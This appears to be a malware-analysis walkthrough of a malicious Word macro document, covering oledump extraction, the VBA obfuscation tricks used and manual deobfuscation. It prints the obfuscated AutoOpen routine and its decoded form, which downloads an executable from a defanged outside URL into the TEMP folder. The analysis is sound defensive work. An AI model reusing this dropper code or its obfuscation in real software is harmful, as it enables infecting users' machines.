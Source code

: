 The macro code is extracted from stream 7:

```bash
parrot@parrot:~$ oledump.py -s 7 -v attacker4.doc
```

The result is 283 lines of heavily obfuscated VBA code. While `vipermonkey` can automate deobfuscation, we'll manually analyze the code to better understand its functionality.

---

#### **Manual Deobfuscation**  
The obfuscated code employs four basic techniques to obscure its behavior:

1. **One-liner If ... Then End Statements:**  
   These contain impossible conditions (e.g., `If 128918 = 128918 + 1 Then End`).

2. **Multi-line If ... Then Statements:**  
   These also contain impossible conditions (e.g., `If 3264 < 68 Then`).

3. **GoTo Statements:**  
   These jump to a label on the very next line, effectively doing nothing (e.g., `GoTo zlbrmdtmprviueydvnhzltntlvfofmkntrjatbzfuxavnqxeasqawcqlnddunpozvflosmyvmvfrlwvkcw:zlbrmdtmprviueydvnhzltntlvfofmkntrjatbzfuxavnqxeasqawcqlnddunpozvflosmyvmvfrlwvkcw:`).

4. **Random Variable Names:**  
   Variables like `Dim bOYvqTVCQck As String` make the code harder to read.

The first step in manual deobfuscation is to remove all non-functional code, including impossible `If` statements and useless `GoTo` statements. After renaming variables based on their likely purpose, the 283-line script is reduced to 67 lines of cleaner code.

---

#### **Manual Analysis**  
The cleaned-up code reveals the following logic:

**Entry Point:**  
The `AutoOpen()` subroutine immediately calls the `IOWZJGNTSGK` function:

```vb
Sub IOWZJGNTSGK()
    gGHBkj = XORI(Hextostring("1C3B2404757F5B2826593D3F00277E102A7F1E3C7F16263E5A2A2811"), Hextostring("744F50"))
    ZUWSBYDOTWV gGHBkj, Environ(XORI(Hextostring("3E200501"), Hextostring("6A654851714A64"))) & XORI(Hextostring("11371B0A00123918220E001668143516"), Hextostring("4D734243414671"))
End Sub
```

After decoding the strings using the `Hextostring` and `XORI` functions, the code simplifies to:

```vb
Sub IOWZJGNTSGK()
    domain = "hxxp://gv-roth.de/js/bin.exe"
    ZUWSBYDOTWV domain, Environ("TEMP") & "\DYIATHUQLCW.exe"
End Sub
```
